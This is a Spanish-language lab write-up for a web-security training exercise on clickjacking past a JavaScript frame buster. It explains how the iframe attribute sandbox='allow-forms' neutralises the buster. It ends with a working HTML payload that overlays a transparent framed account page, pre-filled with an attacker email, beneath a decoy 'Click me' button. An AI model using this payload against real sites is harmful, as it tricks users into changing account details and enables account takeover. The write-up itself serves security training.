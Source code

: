# Lab: Clickjacking with a frame buster script

This lab is protected by a frame buster which prevents the website from being framed. Can you get around the frame buster and conduct a clickjacking attack that changes the users email address?

To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address by clicking on "Click me". The lab is solved when the email address is changed.

You can log in to your own account using the following credentials: `wiener:peter`

`Note`: The victim will be using Chrome so test your exploit on that browser.  
`Hint`: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

Iniciamos el laboratorio y nos encontramos con un blog público:
![image](https://github.com/user-attachments/assets/5c74e9ae-8167-4a37-936a-f722cfad0fed)

## 🎯 Objetivo del laboratorio

El objetivo de este laboratorio es realizar un ataque de **Clickjacking** a una aplicación protegida por un **frame buster**. Específicamente, se debe:

- **Engañar al usuario para que cambie su dirección de correo electrónico** a una controlada por el atacante, sin que el usuario lo note.
- **Eludir la protección de frame busting** utilizando técnicas que permitan embeber la página objetivo en un `<iframe>`.
- Crear una **página maliciosa** en el servidor de exploits que simule un botón atractivo (como "Click me") superpuesto al botón real de "Update email" en la página víctima.

💡 El laboratorio se resuelve cuando la dirección de correo electrónico del usuario víctima ha sido cambiada con éxito.

---

Procedemos a autenticarnos con nuestras credenciales `wiener:peter` para inspeccionar la funcionalidad de cambio de correo:
![image](https://github.com/user-attachments/assets/eaefa3dc-9224-418a-a3bc-d6f06520eb40)

Código fuente:
![image](https://github.com/user-attachments/assets/be6cb75e-cd93-4151-8ecd-d849d158ab37)

Observamos el frame buster:
```javascript
if (top != self) {
    window.addEventListener("DOMContentLoaded", function() {
        document.body.innerHTML = 'This page cannot be framed';
    }, false);
}

/*
📌 Explicación detallada:

1. `if (top != self)`:
   - Esta línea verifica si la página actual está siendo cargada **dentro de un frame**.
   - `top` representa el contexto de la ventana principal (el tope del stack de ventanas).
   - `self` representa el contexto del frame actual.
   - Si no son iguales, significa que la página está embebida en un `<iframe>`.

2. `window.addEventListener("DOMContentLoaded", function() { ... })`:
   - Este evento espera a que el contenido HTML de la página se haya cargado completamente, sin esperar imágenes, hojas de estilo, etc.
   - Una vez que se dispara, ejecuta la función definida.

3. `document.body.innerHTML = 'This page cannot be framed';`:
   - Esta línea reemplaza **todo el contenido del body** por un simple texto: `'This page cannot be framed'`.
   - Esto rompe el contenido original, impidiendo al atacante interactuar con los elementos legítimos (como formularios o botones).
*/

```
Objetivo del script:
- Impedir que la página se renderice correctamente si es embebida por un atacante dentro de un iframe.

Cómo lo evitamos:
- Si el `<iframe>` incluye el atributo `sandbox="allow-forms"`, la página embebida **no puede acceder a `top`**, y por lo tanto la condición `top != self` **no puede evaluarse correctamente**.
- Esto neutraliza el frame buster y permite mostrar el contenido sin activar el reemplazo.


Al igual que en el laboratorio anterior, accedemos al exploit server y procedemos a crean nuestra página maliciosa utilizando nuestro script:
```javascript
<style>
    iframe {
        position: relative;
        width: 500px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 385px;
        left: 80px;
        z-index: 1;
        background: #fff;
        padding: 10px;
        font-weight: bold;
        cursor: pointer;
    }
</style>

<div>Click me</div>
<iframe sandbox="allow-forms"
src="https://0a4a006b0369302b806dd0ee00910067.web-security-academy.net/my-account?email=hacker@evil.com"></iframe>
```


